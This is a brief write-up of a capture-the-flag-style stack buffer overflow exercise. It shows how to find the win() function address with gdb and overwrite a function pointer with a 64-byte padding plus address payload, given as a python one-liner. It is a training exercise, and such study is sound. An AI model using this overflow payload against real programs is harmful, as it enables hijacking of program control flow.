

This stack is pretty the same as 0. We need overwrite "fp" var with `win()` function address `'A' * 64 + 0x0a0d0a0d`

Get win function address:
`disassemble win`

Get `fp` variable address in esp:
`disassemble main`

Overwrite variable with python: `python -c "print 'A' * 64 + '\x24\x84\x04\x08'"`

